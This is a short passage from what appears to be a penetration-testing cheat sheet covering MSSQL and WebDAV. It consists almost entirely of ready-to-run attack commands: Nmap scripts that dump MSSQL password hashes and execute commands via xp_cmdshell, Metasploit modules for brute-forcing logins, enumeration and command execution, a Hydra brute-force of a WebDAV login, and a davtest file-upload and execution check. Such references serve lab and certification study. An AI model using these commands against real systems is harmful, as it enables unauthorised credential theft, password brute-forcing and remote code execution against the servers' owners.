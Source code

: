- Dump hashes with Nmap

```
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=<USERNAME>,mssql.password=<PASSWORD> <IP>
```

- Code execution with Nmap

```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<USERNAME>,mssql.password=<PASSWORD>,ms-sql-xp-cmdshell.cmd="<COMMAND>" <IP>
```

- Brute force with Metasploit

```
use auxiliary/scanner/mssql/mssql_login
```

- General enumeration

```
use auxiliary/admin/mssql/mssql_enum
```

- Code execution

```
use auxiliary/admin/mssql/mssql_exec
```

```
set CMD <COMMAND>
```

<div style="page-break-after: always;"></div>

# WebDAV
---

- To ensure WebDAV is running

```
nmap -sV -p 80 --script=http-enum <IP>
```

- Brute force the login with Hydra
	- Replace "/webdav" with the correct directory

```
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <IP> http-get /webdav/
```

- Test file uploads and execution
	- Test with random/invalid creds too

```
davtest -auth <USERNAME>:<PASSWORD> -url <URL>/<WEBDAV_DIR>
```
